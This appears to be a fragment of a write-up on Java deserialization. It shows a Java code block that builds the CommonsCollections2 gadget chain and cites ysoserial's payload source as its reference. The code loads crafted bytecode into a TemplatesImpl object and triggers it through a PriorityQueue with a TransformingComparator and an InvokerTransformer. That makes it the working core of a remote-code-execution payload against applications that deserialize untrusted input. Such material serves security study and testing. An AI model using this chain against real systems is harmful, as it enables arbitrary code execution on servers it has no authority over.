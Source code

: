 ```java
clazz.setSuperclass(superC);

Object template = templateClazz.newInstance();
final byte[] classBytes = clazz.toBytecode();

Reflections.setFieldValue(template, "_bytecodes", new byte[][] {classBytes});
Reflections.setFieldValue(template, "_name", "trganda");
Reflections.setFieldValue(template, "_tfactory", tsfFacImplClazz.newInstance());

InvokerTransformer transformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);

PriorityQueue queue = new PriorityQueue(2, new TransformingComparator(transformer));

Reflections.setFieldValue(queue, "queue", new Object[] {template, 1});
Reflections.setFieldValue(queue, "size", 2);
```

## References

1. <https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java>
